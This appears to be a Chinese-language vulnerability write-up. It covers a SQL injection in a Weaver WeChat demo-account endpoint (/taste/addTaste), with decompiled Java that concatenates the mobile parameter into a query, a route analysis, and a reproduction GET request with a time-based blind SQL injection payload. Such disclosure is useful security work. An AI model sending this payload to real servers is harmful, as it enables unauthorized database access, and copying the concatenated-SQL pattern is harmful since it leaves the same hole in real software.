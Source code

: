 ```
cityValue.indexOf("-") >= 0) {                                 String[] pcarr = cityValue.split("-");                                 province = pcarr[0];                                 city = pcarr[1];                              }                           }                        }                     } catch (Exception var38) {                     }                     PostMethod postMethod = new PostMethod("http://www.weaver.com.cn/subpage/apply/applysubmite4json.asp");                     NameValuePair[] param = new NameValuePair[]{new NameValuePair("name", userName.replace("(客户)", "")), new NameValuePair("mobile", mobile), new NameValuePair("company", company), new NameValuePair("type", "12"), new NameValuePair("_url", "http://wx.weaver.com.cn"), new NameValuePair("province", province), new NameValuePair("city", city), new NameValuePair("source", source)};                     postMethod.setRequestBody(param);                     postMethod.getParams().setParameter("http.protocol.content-charset", "GBK");                     HttpClient http = new HttpClient();                     http.getHttpConnectionManager().getParams().setConnectionTimeout(3000);                     http.getHttpConnectionManager().getParams().setSoTimeout(8000);                     http.executeMethod(postMethod);                     cityValue = postMethod.getResponseBodyAsString();                     JSONObject json = JSONObject.fromObject(cityValue);                     if (json != null && "1".equals(json.getString("result"))) {                        msg = "";                        status = 0;                     }                  } catch (Exception var39) {                     msg = "写入客户库失败：" + var39.getMessage();                     var39.printStackTrace();                  }               }            } else {               msg = "没有根据系统ID查询到相关数据";            }         } else {            msg = "相关参数不完整";         }      } catch (Exception var45) {         var45.printStackTrace();         msg = "添加体验账号程序异常，请联系管理员";      } finally {         WxDemoTaste t = new WxDemoTaste();         t.setCompany(company);         t.setCreatetime(new Date());         t.setErrormsg(msg);         t.setIpaddress(ToolWeb.getIpAddr(this.getRequest()));         t.setMobile(mobile);         t.setUsername(userName);         t.setTastefrom(from);         t.setOpenid(openid);         List tList = this.wxDemoTasteModel.getList(WxDemoTaste.class, "select * from wx_demo_taste where mobile ='" + mobile + "'");         if (tList != null && tList.size() > 0) {            t.setIsrepart(1);         } else {            t.setIsrepart(0);         }         t.setStatus(status);         this.wxDemoTasteModel.saveBean(t);      }      return msg;   }
```  
  
在343  
行代码中，sql语句中直接拼接了 mobile 字符串的值，导致漏洞产生。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6IHoMXG22T0mmeaa8amWlmsmLRn9AJudc3PPuSx7lS6IsiawdyuYDXFQnyA6tuJabGelicOumvByhw/640?wx_fmt=png "null")  
  
### 路由分析  
  
在 TasteController.class  
 定义了Controller  
```
@Controller(   controllerKey = {"/taste"})
```  
- • **@Controller**  
: 这个注解用于定义一个控制器，目的是将进入的 HTTP 请求路由到类中的方法。  
  
- • **controllerKey**  
: 这是一个属性，允许你指定该控制器映射的 URL 路径。在你的例子中，它将映射到路径 /taste  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vOGOib9z4Wz6IHoMXG22T0mmeaa8amWlmYtzg3plwIu5mEW0ys7wicVFy5zibjOfw86MvzmNtZAN3eokc6cz9Lu9w/640?wx_fmt=png "null")  
  
  
所以访问 addTaste  
 函数的路由为：  
```
/taste/addTaste?company=1&userName=1&mobile=1&openid=1&from=0&source=1
```  
### 漏洞复现  
```
GET /taste/addTaste?company=1&userName=1&openid=1&source=1&mobile=1%27+AND+%28SELECT+8094+FROM+%28SELECT%28SLEEP%289-%28IF%2818015%3E3469%2C0%2C4%29%29%29%29%29mKjk%29+OR+%27KQZm%27%3D%27REcX HTTP/1.1Host: 127.0.0.1:8088
```  
  